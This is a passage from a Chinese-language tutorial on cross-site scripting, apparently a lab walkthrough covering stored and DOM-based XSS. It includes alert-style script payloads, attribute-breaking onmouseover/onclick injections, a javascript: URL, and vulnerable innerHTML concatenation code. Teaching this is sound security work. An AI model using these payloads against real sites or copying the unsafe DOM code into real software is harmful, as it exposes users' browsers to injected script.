 ```js
<script>alert('hack')</script>
```



## 三. 存储型XSS

留言板会将我们输入的数据**存储到数据库中**，所以说存储型XSS攻击是持久性的！即当我们再次访问网页时，就可以重现该漏洞：

```js
<script>alert('hack')</script>
```



## 四. DOM型XSS

DOM 可以理解为访问 HTML 的标准接口，DOM会 HTML 分成一个 DOM 树

DOM型XSS的 XSS 代码不需要服务器解析，触发 XSS 靠的就是前端的 DOM 解析！

前端 js 代码分析：

```html
<div id="dom"><a href="">what do you see?</a></div>
```

```js
<script>
    function domxss(){
        var str = document.getElementById("text").value;
        document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
    }
    //试试：'><img src="#" onmouseover="alert('xss')">
    //试试：' onclick="alert('xss')">,闭合掉就行
</script>
```

解题思路 1：利用 javascript 伪协议：

```js
javascript:alert("hack")
```

解题思路 2：利用绕过、闭合操作：

```js
'><img src="#" onmouseover="alert('hack')">
```

```js
' onclick="alert('hack')">
```



## 五. Dom型XSS-X

前端页面 js 代码分析：
